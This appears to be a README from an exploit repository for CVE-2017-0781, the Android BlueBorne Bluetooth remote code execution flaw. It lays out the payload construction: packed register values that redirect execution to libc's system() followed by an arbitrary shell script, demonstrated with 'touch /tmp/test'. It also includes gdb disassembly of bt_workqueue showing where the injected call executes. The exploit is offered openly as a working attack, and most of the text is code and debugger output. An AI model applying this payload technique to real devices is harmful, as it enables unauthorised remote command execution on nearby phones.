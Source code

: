 # android712-blueborne
Android Blueborne RCE CVE-2017-0781

Tricky to pull off.... not reliable.

Control r4 register which is REMOTE_NAME

Payload is:

SHELL_SCRIPT = b'touch /tmp/test'

Payload is: '"\x17AAAAAAsysm";\n<bash_commands>\n#'
'sysm' is the address of system() from libc. The *whole* payload is a shell script.
0x1700 == (0x1722 & 0xff00) is the "event" of a "HORRIBLE_HACK" message.
payload = struct.pack('<III', 0x41411722, 0x41414141, system_addr) + b'";\n' + SHELL_SCRIPT + b'\n#'


After dozen of executions got this condition in

bt_workqueue


(gdb) x/30i 0xacda11c4
=> 0xacda11c4:	ldrh	r1, [r4, #0]
   0xacda11c6:	bic.w	r0, r1, #255	; 0xff
   0xacda11ca:	cmp.w	r0, #5632	; 0x1600
   0xacda11ce:	bge.n	0xacda11ec
   0xacda11d0:	cmp.w	r0, #4096	; 0x1000
   0xacda11d4:	beq.n	0xacda1206
   0xacda11d6:	cmp.w	r0, #4352	; 0x1100
   0xacda11da:	beq.n	0xacda1230
   0xacda11dc:	cmp.w	r0, #4608	; 0x1200
   0xacda11e0:	bne.n	0xacda1250
   0xacda11e2:	mov	r0, r4
   0xacda11e4:	ldmia.w	sp!, {r4, lr}
   0xacda11e8:	b.w	0xacd738a4
   0xacda11ec:	beq.n	0xacda123a
   0xacda11ee:	cmp.w	r0, #6400	; 0x1900
   0xacda11f2:	beq.n	0xacda1246
   0xacda11f4:	cmp.w	r0, #5888	; 0x1700
   0xacda11f8:	bne.n	0xacda1250
   0xacda11fa:	ldr	r1, [r4, #8]
   0xacda11fc:	mov	r0, r4
   0xacda11fe:	blx	r1
   0xacda1200:	ldr	r0, [pc, #92]	; (0xacda1260)
   0xacda1202:	add	r0, pc

As we can see our system call should be executed on  0xacda11fe

